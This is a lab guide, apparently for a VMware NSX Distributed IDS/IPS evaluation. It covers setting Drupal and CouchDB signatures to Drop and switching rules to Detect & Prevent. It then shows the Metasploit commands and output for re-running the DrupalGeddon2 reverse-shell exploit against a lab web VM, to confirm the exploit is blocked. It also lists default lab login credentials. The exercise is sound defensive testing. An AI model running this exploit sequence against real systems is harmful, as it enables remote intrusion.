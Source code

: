 
## 8. Preventing an Attack
**Estimated Time to Complete: 30 minutes**

In this exercise, we will show how the NSX Distributed IDS/IPS can just detect but also prevent an attack. We will run the same attack scenario as before.

**Tune the Web-FrontEnd Profile**

In order to prevent an attack, we need to both change the mode in our IDS/IPS rule(s) to **detect and prevent** and ensure that relevant signature actions are set to either **drop** or **reject**.
The default VMware-recommend signature action can be overrided both at the global level, or within a profile. For the purpose of this lab, we will make the modification within the profile.
Besides changing the signature action, you can also disable signatures as the global or per-profile level, which may be needed in case of false-positives.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Web-FrontEnd** profile and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. In the Filter field, select **Product Affected** and type **drupal_drupal** and click **Apply** to only show the signatures related to Drupal.

![](assets/images/IDPS_POC_56.PNG)

5. You should see a filtered list with 4 signatures (may be different if you have a different signature package version deployed). 
5. For each of the signatures displayed, set the Action to **Drop** or **Reject**. Click **Apply** to confirm.

![](assets/images/IDPS_POC_57.PNG)

6. Click **SAVE** to save the changes to the **Web-FrontEnd** profile.

**Tune the Databases Profile**

Now we will also set the action for signatures related to **CouchDB** in the **Databases** profile to **Drop**.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Databasesprofile** and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. You should see a filtered list with 7 signatures (may be different if you have a different signature package version deployed). 
5. Click the selection box on top to select all signatures.  
6. Click the **ACTION** button on top and choose **Drop** to change the action for all selected signatures to **Drop**. Click **Apply** to confirm.
7. Click **SAVE** to save the changes to the **Databases** profile.

**Change the IDS/IPS Mode to Detect & Prevent**

For each IDS/IPS Rule, you can set the mode to **Detect Only** or **Detect & Prevent**. This mode effecively limits the action that can be taken. When deployed in **Detect Only** mode, the only action that will be taken when a signature is triggerd is an **Alert** will be generated, regardless of the action set for the signature. In **Detect & Prevent** mode on the other hand, the action set on each signature is applied.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Rules
2. Click the **>** icon to expand the **NSX IDPS Evaluation** Policy. **ADD POLICY**
3. For both the **App-Tier Policy** and **Web-Tier Policy** rule, change the mode from **Detect Only** to **Detect & Prevent**.

![](assets/images/IDPS_POC_57.PNG)

4. Click **PUBLISH** to commit the changes.

**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate DrupalGeddon2 attack against the App1-WEB-TIER VM (again)**
1.	Type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit** to initiate the exploit, esbalish a reverse shell
    
2.	Confirm that as a **detect & prevent** policy is applied to the WEB-TIER VMs, the exploit attempt was prevented and no meterpreter session was established. Because the initial exploit was not successful, lateral movement to the iternal segment is also prevented.

```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] Using configured payload php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Exploit completed, but no session was created.
msf5 exploit(unix/webapp/drupal_drupalgeddon2) >

```
**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload
![](assets/images/IDPS_POC_61.PNG)
3. Navigate to Security --> East West Security --> Distributed IDS
4. Confirm 2 signatures have fired:
    * Signature for **DrupalGeddon2**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Remote Code execution via a PHP script**, with **APP-1-WEB-TIER** as Affected VM
    
    ![](assets/images/IDPS_POC_59.PNG)

5. Now you can drill down into these events. Click the **>** symbol to the left of the **ET WEB_SPECIFIC_APPS [PT OPEN] Drupalgeddon2 <8.3.9 <8.4.6 <8.5.1 RCE Through Registration Form (CVE-2018-7600)** event near the bottom of the table to expand this event. 
    * Confirm that the IP addresses of the attacker and victim match with the **External VM** and **APP-1-WEB-TIER VM** respectlively.
    * click the **green bar (Prevented)** to see details about the exploit attempts. You may see multiple attemts (from different ports) as Metasploit initiated multiple connections

  ![](assets/images/IDPS_POC_60.PNG)

You have now successfully prevented the initial exploit and further lateral movement.
This completes this exercise and the lab. You may continue with some optional exercises. 

This completes this exercise and the lab. You may continue with some optional exercises or read the conclusion (see below links)  

Before moving to the next exercise, folow [these instructions](ClearingIDSEvents.md) to clear the IDS events from NSX Manager

---

[***Next Step : (Optional) 9. Logging to an external collector**](9-Logging.md) 
[***Next Step : (Optional) 10. Segmenting the Environment**](10-Segmentation.md) 
[***Next Step : 11. Conclusion**](11-Conclusion.md) 

